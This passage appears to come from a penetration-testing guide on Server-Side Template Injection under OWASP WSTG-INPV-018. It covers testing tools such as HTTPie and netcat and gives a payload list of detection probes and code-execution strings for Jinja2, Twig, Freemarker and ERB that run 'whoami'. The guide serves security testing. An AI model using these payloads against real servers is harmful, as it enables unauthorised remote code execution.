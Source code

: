       # HTTPie
      http "http://example.com/page?name={{7*7}}"
      ```

- **Postman**: GUI tool for testing template payloads in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send payloads in query parameters or body.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to template payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Console tab for output.
  - **Note**: Firefox’s 2025 response inspection enhancements improve debugging.

- **Netcat (nc)**: Tests raw HTTP requests with custom payloads.
  - Install on Linux:
    ```bash
    sudo apt install netcat
    ```
  - Install on Windows/Mac: Download from [nmap.org](https://nmap.org/ncat/).
  - Example:
    ```bash
    echo -e "GET /page?name={{7*7}} HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
    ```

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-018, testing Server-Side Template Injection vulnerabilities across template injection points, basic injection, code execution, file access, environment variable exposure, filter bypass, and chained attacks.

### Common Server-Side Template Injection Payloads

Below is a list of common payloads to test for SSTI vulnerabilities. Start with simple payloads to detect the template engine, then escalate to advanced payloads. Use with caution in controlled environments to avoid unintended code execution or server disruption.

- **Basic Injection Payloads** (Detect Template Engine):
  - `{{7*7}}` (Jinja2, Twig: Outputs `49`)
  - `${7*7}` (Freemarker, Velocity: Outputs `49`)
  - `<%= 7*7 %>` (ERB, JSP: Outputs `49`)
  - `#{7*7}` (Ruby ERB: Outputs `49`)

- **Code Execution Payloads**:
  - Jinja2: `{{''.__class__.__mro__[1].__subclasses__()[407]('whoami', shell=True, stdout=-1).communicate()}}` (Executes `whoami`)
  - Twig: `{{_self.env.registerUndefinedFilterCallback('exec')(_self.env.getFilter('whoami'))}}` (Executes `whoami`)
  - Freemarker: `<#assign ex='freemarker.template.utility.Execute'?new()>${ex('whoami')}` (Executes `whoami`)
  - ERB: `<%= system('whoami') %>` (Executes `whoami`)
